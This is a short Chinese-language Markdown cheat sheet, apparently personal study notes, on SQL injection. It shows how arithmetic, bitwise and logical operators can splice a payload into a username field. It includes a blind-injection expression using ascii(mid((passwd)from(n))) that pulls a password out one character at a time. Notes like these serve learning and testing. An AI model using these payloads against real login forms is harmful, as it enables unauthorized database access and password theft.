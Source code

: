 ![](https://ae01.alicdn.com/kf/Hd954de6df5e641a39cdcfa050f7215fdo.jpg)

### 算数运算
- + 

```
username= 'admin'+(payload)
```
![](https://ae01.alicdn.com/kf/H523d3e670d5f4d478d0aa8beedcd466fq.jpg)
- - 

```
username ='admin'--(payload)
```
![](https://ae01.alicdn.com/kf/Hdfa18fd2209742f0876b82770d7f8809i.jpg)
- * 

```
username ='1abc'* (payload)
```
- / 

```
username ='1abc'/ (payload)
```

```
1’-(ascii(mid((passwd)from(n)))=m)-’ 

正常的用法如下，对于str字符串，从pos作为索引值位置开始，返回截取len长度的子字符串

MID(str,pos,len)
这里的用法是，from(1)表示从第一个位置开始截取剩下的字符串，for(1)表示从改位置起一次就截取一个字符

mid((str)from(i))
mid((str)from(i)for(1))

```

### 位运算
- & 

```
username='1abc'&(payload)
```
![](https://ae01.alicdn.com/kf/H061891db89194f2cb36ec7f1792dbcc8u.jpg)

- |  或
- ^  异或
- '<<0'>>0# 移位操作

###逻辑运算
- <> 不等于
```
username='admin'<>(payload)
```
